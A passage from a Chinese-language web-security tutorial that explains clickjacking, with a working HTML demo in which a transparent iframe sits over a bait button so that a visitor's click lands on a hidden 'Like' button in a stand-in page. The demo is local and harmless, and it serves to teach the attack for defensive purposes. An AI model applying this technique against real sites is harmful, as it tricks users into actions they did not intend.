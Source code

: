```html
</html>
```

在上面这个示例中，我们有一个半透明的 `<iframe src="facebook.html">`，我们可以看到，它位于按钮之上。点击按钮实际上会点击在 iframe 上，但这对用户不可见，因为 iframe 是透明的。

结果，如果访问者登陆了 Facebook（“记住我”通常是打开的），那么这个行为就会点一个“赞”。Twitter 上是 “Follow” 按钮。

下面是相同的示例，但 `iframe` 的透明度设置为了 `opacity:0`，更符合实际情况：

```html
<!-- index.html -->
<!DOCTYPE html>
<html>
  <head>
    <meta charset="UTF-8" />
  </head>

  <body>
    <style>
      iframe {
        width: 400px;
        height: 100px;
        position: absolute;
        top: 5px;
        left: -14px;
        opacity: 0;
        z-index: 1;
      }
    </style>

    <div>点击即可变得富有：</div>

    <!-- 来自受害网站的 url -->
    <iframe src="facebook.html"></iframe>

    <button>点这里！</button>

    <div>……你很酷（我实际上是一名帅气的黑客）！</div>
  </body>
</html>
```

```html
<!-- facebook.html -->
<!DOCTYPE html>
<html>
  <body style="margin:10px;padding:10px">
    <input
      type="button"
      onclick="alert('Like pressed on facebook.html!')"
      value="I LIKE IT !"
    />
  </body>
</html>
```
